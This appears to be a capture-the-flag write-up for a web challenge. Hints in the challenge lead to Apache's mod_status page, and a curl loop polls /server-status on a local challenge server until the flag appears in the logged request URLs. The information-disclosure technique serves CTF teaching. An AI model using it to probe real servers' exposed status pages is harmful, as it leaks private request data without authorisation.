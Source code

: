 ## Reasoning

Attentive player might notice that Navajo is an ethnic group closely related to Apache. Also, there is a "status" word in the challenge description. This points to widely-known [mod_status](https://httpd.apache.org/docs/2.4/mod/mod_status.html) feature of Apache web server. The default location for it is `/server-status`.

As an additional hint, we provided `robots.txt` file which also points to `/server-status`.

## Actual solution

Small extra difficulty is that flag is not always present in the server-status output.

Hence, we request `/server-status` endpoint until we get the flag:

    $ while true ; do curl -s http://localhost:8000/server-status | grep flag | grep -v flag\.txt ; done
    </td><td>127.0.0.1</td><td>http/1.1</td><td nowrap>10.200.0.3:80</td><td nowrap>GET /flag%7Bsecret_url_that_no_one_can_guess%7D HTTP/1.1</td></tr>
